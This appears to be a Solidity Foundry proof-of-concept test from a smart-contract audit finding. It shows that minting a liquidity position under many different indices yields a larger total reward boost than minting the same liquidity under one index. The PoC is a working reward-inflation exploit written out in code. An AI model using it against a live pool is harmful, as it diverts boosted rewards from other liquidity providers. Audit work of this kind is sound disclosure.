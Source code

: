 ```solidity
        int24 tickLower,
        int24 tickUpper
    ) internal pure returns (bytes32) {
        return keccak256(abi.encodePacked(owner, index, tickLower, tickUpper));
    }

   function testMultipleAttachmentPOC() public {
        uint256 period = block.timestamp / (1 weeks);
        (
            uint160 sqrtPriceX96,
            int24 tick,
            uint16 observationIndex,
            uint16 observationCardinality,
            uint16 observationCardinalityNext,
            uint8 feeProtocol,
            bool unlocked
        ) = _pool.slot0();
        int24 tickLower = tick - 132;
        int24 tickUpper = tick + 68;

        // get the boostAmount when using the same index to repeatedly mint
        for (uint i = 0; i < 10; i++) {
            _pool.mint(address(this), 0,  tickLower, tickUpper, 100, 1, "");
        }
        (uint128 boostAmountMintingSameIndex,,,) = _pool.boostInfos(period, positionHash(address(this), 0, tickLower, tickUpper));
        // clear out all the state from this minting such that it doesn't affect the minting below.  In essence, the two operations should functional independently of one another.
        _pool.burn(0, tickLower, tickUpper, 100 * 10, 1);
        _pool.collect(address(this), tickLower, tickUpper, uint128(_token0.balanceOf(address(_pool))), uint128(_token1.balanceOf(address(_pool))));
        vm.startPrank(address(_pool));
        _token0.transfer(address(this), _token0.balanceOf(address(_pool))); // clear the fee balances
        _token1.transfer(address(this), _token1.balanceOf(address(_pool)));
        vm.stopPrank();

        skip(1 weeks); // skip forward a week to ensure the prior period's `totalVeRamAmount` doesn't affect this period's.
        period = period + 1;

        // get the boostAmount when using different indices to repeatedly mint
        uint128 boostAmountMintingDifferentIndices;
        for (uint i = 0; i < 10; i++) {
            _pool.mint(address(this), i+1,  tickLower, tickUpper, 100, 2, ""); // the VotingEscrow contract is hard coded to return the same balanceOfNFT for every tokenId to illustrate the point.
            (uint128 boostAmountAccumulator,,,) = _pool.boostInfos(period, positionHash(address(this), i+1, tickLower, tickUpper));
            boostAmountMintingDifferentIndices += boostAmountAccumulator;
        }

        // the boostAmount of all the differently indexed positions is > the boost amount when using the same position supplying the same liquidity
        assertGt(uint(boostAmountMintingDifferentIndices), uint(boostAmountMintingSameIndex));
    }
}
```
